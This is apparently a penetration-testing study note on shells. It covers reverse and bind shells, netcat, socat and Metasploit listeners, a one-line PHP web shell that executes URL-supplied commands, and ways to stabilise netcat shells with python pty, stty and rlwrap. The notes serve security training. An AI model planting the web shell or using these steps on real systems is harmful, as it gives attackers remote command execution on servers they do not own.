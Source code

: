 --- ---

<h2>Type of Shell</h2>

- Shell (Normal Shell)
- Reverse Shell (Target forced to execute code/task that connects back to your computer)
- Blind Shell (Target is forced to execute code to start a listener attached to a shell directly on the target) -- (Limited because of Firewall)

---

## **Type of Shell**

- Netcat                                          ---> [[Red Team/4 - Exploitation/Shell & Reverse Shell/2 - Listeners/• Netcat]]
- Socat                                            ---> [[• Socat (Encrypted)]]
- Multi/Handler (Metasploit)          ---> [[• Multi Handler]]
- Web Shell

	As PHP is still the most common server side scripting language, let's have a look at some simple code for this.
	
	In a very basic one line format:

	```
	<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>
	```

	This will take a GET parameter in the URL and execute it on the system with `shell_exec()`. Essentially, what this means is that any commands we enter in the URL after `?cmd=` will be executed on the system -- be it Windows or Linux. The "pre" elements are to ensure that the results are formatted correctly on the page.

	Let's see this in action:
	![](https://i.imgur.com/W19gHwL.png)

**Creating Shell**
- Link <a href="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md">Number 1</a>
- Link <a href="https://web.archive.org/web/20200901140719/http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet">Number 2</a>

---

<h2>Shell Stabilisation</h2>

Pressing Ctrl + C kills the whole thing. They are non-interactive, and often have strange formatting errors. This is due to netcat "shells" really being processes running _inside_ a terminal, rather than being bonafide terminals in their own right. Fortunately, there are many ways to stabilise netcat shells on Linux systems. We'll be looking at three here. Stabilisation of Windows reverse shells tends to be significantly harder; however, the second technique that we'll be covering here is particularly useful for it.  

- Technique 1 (Python) 

	The first technique we'll be discussing is applicable only to Linux boxes, as they will nearly always have Python installed by default. This is a three stage process:

	1.  The first thing to do is use `python -c 'import pty;pty.spawn("/bin/bash")'`, which uses Python to spawn a better featured bash shell; note that some targets may need the version of Python specified. If this is the case, replace `python` with `python2` or `python3` as required. At this point our shell will look a bit prettier, but we still won't be able to use tab autocomplete or the arrow keys, and Ctrl + C will still kill the shell.
	2.  Step two is: `export TERM=xterm` -- this will give us access to term commands such as `clear`.
	3.  Finally (and most importantly) we will background the shell using Ctrl + Z. Back in our own terminal we use `stty raw -echo; fg`. This does two things: first, it turns off our own terminal echo (which gives us access to tab autocompletes, the arrow keys, and Ctrl + C to kill processes). It then foregrounds the shell, thus completing the process.

	The full technique can be seen here:

	![](https://i.imgur.com/bQnFz1T.png)

	Note that if the shell dies, any input in your own terminal will not be visible (as a result of having disabled terminal echo). To fix this, type `reset` and press enter.  

- Technique 2 (rlwrap)

	rlwrap is a program which, in simple terms, gives us access to history, tab autocompletion and the arrow keys immediately upon receiving a shell_;_ however, s_ome_ manual stabilisation must still be utilised if you want to be able to use Ctrl + C inside the shell. rlwrap is not installed by default on Kali, so first install it with `sudo apt install rlwrap`.

	To use rlwrap, we invoke a slightly different listener:

	`rlwrap nc -lvnp <port>`  

	Prepending our netcat listener with "rlwrap" gives us a much more fully featured shell. This technique is particularly useful when dealing with Windows shells, which are otherwise notoriously difficult to stabilise. When dealing with a Linux target, it's possible to completely stabilise, by using the same trick as in step three of the previous technique: background the shell with Ctrl + Z, then use `stty raw -echo; fg` to stabilise and re-enter the shell.  